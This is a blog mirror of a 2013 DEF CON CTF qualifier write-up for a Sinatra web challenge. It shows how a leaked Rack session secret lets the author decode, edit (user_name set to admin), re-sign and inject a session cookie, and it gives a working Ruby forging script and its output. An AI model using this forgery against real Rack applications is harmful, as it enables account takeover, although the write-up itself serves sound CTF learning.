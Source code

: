 ```yaml
---
layout: post
title: "DefCon CTF Qualifier 2013 3dub 3 Write Up"
date: 2013-06-28 12:00:00
categroies: ctf web
comments: true
---
```


mirror of [http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/](http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/)

First of all, we got a `secrets` link and `log in or create user` form. When we create and login, the website redirect us to the 'secrets' page like this

> Secrets
> 
> name owner actions
> 
> key admin [show](#)
> 
> nothing asdf [show](#)
> 
> [new secret](#)

we've got some links to see secrets owned by other users, include the `admin`, or easily add a new secret ourselves.

Having a try to open the admin's secret, we got a 500 Error Page with some error stack, which powered by the Ruby framework `Sinatra`.

From the very first sight of the page, it said `unauthorized` as the error message and a piece of source code was provided

``` ruby
    end

    redirect '/secrets'
end

get '/secrets/:id' do
    s = SECRETS[params[:id].to_i]
raise "unauthorized" if session[:user_name] != s.username

haml :secret, locals: {secret: s}
end

helpers do
    def current_user
        return nil unless session[:user_name]
```

<!-- more -->

It meant that I'm not the secret's holder. then have a look at the whole page, and you would find some environment variable in the `Rack ENV` section, partly like

* rack.session

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.session.options

``` ruby
{:path=>"/", :domain=>nil, :expire_after=>nil, :secure=>false, :httponly=>true, :defer=>false, :renew=>false, :sidbits=>128, :secure_random=>SecureRandom, :secret=>"wroashsoxDiculReejLykUssyifabEdGhovHabno", :coder=>#}
```

* rack.session.unpacked_cookie_data

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.request.cookie_hash

``` ruby
{"rack.session"=>"BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n--d637305e23d6693f3ebe276b292293c7ff0b72e6"}
```

we've got some message:

the cookie `rack.session` is some way encoded of `rack.session.unpacked_cookie_data`, which is totally the same as env variable rack.session, and the coder mybe `Rack::Session::Cookie::Base64::Marshal`, secret (if any) maybe `wroashsoxDiculReejLykUssyifabEdGhovHabno`

By seeking the source code of rack, we found this [https://github.com/rack/](https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb)

``` ruby
    @secrets = options.values_at(:secret, :_old_secret).compact
    # some code else
    session_data = coder.encode(session)
    if @secrets.first
        session_data << "--#{generate_hmac(session_data, @secrets.first)}"
    end 
    # some code else
    def generate_hmac(data, secret)
        OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
    end
```

Once the server received a request, it would confirm the validation of the cookie, reset the session if digest mismatch

``` ruby
if @secrets.size > 0 && session_data
    session_data, digest = session_data.split("--")
    session_data = nil unless digest_match?(session_data, digest)
end
```

Meanwhile, we knew the whole process of the session checking. thus, I've wrote a ruby script to figure out this stuff with this way

* `unpack(decode)` the cookie to origin session data
* modify session_data.user_name to `admin`
* `repack(encode)` the session data to cookie string format
* calculate a new digest of the session data then build the cookie

### code

``` ruby
#!/usr/bin/ruby
#Author: xelz@blue-lotus

require 'openssl'

# part of rack/lib/rack/session/cookie.rb
class Base64
    def encode(str)
        [str].pack('m')
    end

    def decode(str)
        str.unpack('m').first
    end

    # Encode session cookies as Marshaled Base64 data
    class Marshal < Base64
        def encode(str)
            super(::Marshal.dump(str))
        end

        def decode(str)
            return unless str
            ::Marshal.load(super(str)) rescue nil
        end
    end
end

def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

exit() unless ARGV[0]

data = ARGV[0].split('--')[0]
# puts 'data is:'
# puts data, "\n"

coder = Base64::Marshal.new
data = coder.decode(data)
data['user_name'] = "admin"
data = coder.encode(data)
# puts 'modified data is:'
# puts data, "\n"
data = data

secret = 'wroashsoxDiculReejLykUssyifabEdGhovHabno'
# puts 'new digest string is:'
digest = generate_hmac(data, secret)
# puts digest, "\n"

puts 'cookie is'
cookie = data.gsub("\n", "%0A") + '--' + digest
puts cookie
```

run the script like this:

``` bash
xelz@blue-lotus:defconctf$echo -en 'BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n' | awk '{print $1"\\"}' | xargs ./hypeman.rb
cookie is
BAh7CSINdHJhY2tpbmd7CCIZSFRUUF9BQ0NFUFRfRU5DT0RJTkciLWVkMmIz%0AY2E5MGE0ZTcyMzQwMjM2N2ExZDE3YzhiMjgzOTI4NDIzOTgiFEhUVFBfVVNF%0AUl9BR0VOVCItOWMxZjdmOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlk%0ANDhiYiIZSFRUUF9BQ0NFUFRfTEFOR1VBR0UiLWNhNGFlZTBlODEyMTRhZGRj%0ANWZiMTI4NzdjZjllNWM4YjhiZWI3ZDYiCWNzcmYiRTVmNmQ4NWI3ZTFiMGE0%0AOGM4YTg3ZTQyODAzYWMxNjZjZjdkNjAxMjFhZmQyNGJhOTM3YmY2NWZhNGY4%0AOTg5YzYiD3Nlc3Npb25faWQiRTM1M2M2NjUyNWEwMWZhMGIzODU2Y2I5ZjM0%0AYWFlMmFhOWEzNmFkNGNkZTAyZGFlYTBjY2ZiYWY1NjZkZGJiNWEiDnVzZXJf%0AbmFtZSIKYWRtaW4=%0A--4bd0a545e155460f804aff9df3e80e20fdffa07f
```

then modify the cookie with the new value, using any tool you like such as Firebug(for Firefox), WebInspector(for Webkit Based Browser), Fiddler(under IE7), Burpsuite(Java Based for any platform), I'd like to use the Javascript Console in Chrome:

``` javascript
document.cookie='rack.session=xxx;'
```

refresh the page, and enjoy :)

### key

> watch out for this Etdeksogav
